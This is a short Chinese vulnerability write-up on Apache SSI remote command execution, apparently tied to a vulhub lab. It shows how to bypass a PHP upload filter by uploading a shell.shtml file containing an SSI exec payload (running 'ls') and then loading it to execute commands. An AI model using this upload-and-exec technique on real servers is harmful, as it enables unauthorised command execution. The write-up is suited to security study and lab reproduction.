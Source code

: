Apache SSI 远程命令执行漏洞
===========================

一、漏洞简介
------------

在测试任意文件上传漏洞的时候，目标服务端可能不允许上传php后缀的文件。如果目标服务器开启了SSI与CGI支持，我们可以上传一个shtml文件，并利用\`\`语法执行任意命令。

二、漏洞影响
------------

三、复现过程
------------

正常上传PHP文件是不允许的，我们可以上传一个shell.shtml文件：

    <!--#exec cmd="ls" -->

![](./.resource/ApacheSSI远程命令执行漏洞/media/rId24.png)

成功上传，然后访问shell.shtml，可见命令已成功执行：

![](./.resource/ApacheSSI远程命令执行漏洞/media/rId25.png)

参考链接
--------

> https://vulhub.org/\#/environments/httpd/ssi-rce/
